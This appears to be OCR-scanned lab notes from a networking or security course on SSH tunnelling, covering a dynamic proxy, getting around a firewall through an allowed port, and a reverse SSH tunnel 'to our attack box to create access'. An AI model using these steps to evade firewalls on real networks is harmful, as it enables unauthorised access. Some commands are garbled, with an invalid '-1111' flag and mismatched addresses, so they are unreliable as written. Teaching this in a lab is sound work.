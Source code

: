 ```

IHST:$ `ssh student@localhost -1111 -D 9050`
client       server thru open -1111    c port
```

- Normal SSH connection
10.10.0.40:54321  -->  172.168.82.106:22

- What if a firewall blocks SSH?
10.10.0.40:54321  --> //FW//    172.168.82.106:22

- We need to try to get around firewall through an accepted firewall port, i.e. telnet
10.10.0.40:54321  --> //FW// -->  172.168.82.106:23

- Now we can create a **Reverse** tunnel to our attack box to create access
BDH1:$ `ssh -R 1234:172.16.82.106:22 student@10.10.0.40`

10.10.0.40:54321  --> //FW// -->  172.168.82.106:23
10.10.0.40:54321  <-- //FW// <--   172.168.82.106:22

- Remove ssh keys after exercise
`rm .ssh/known_hosts`
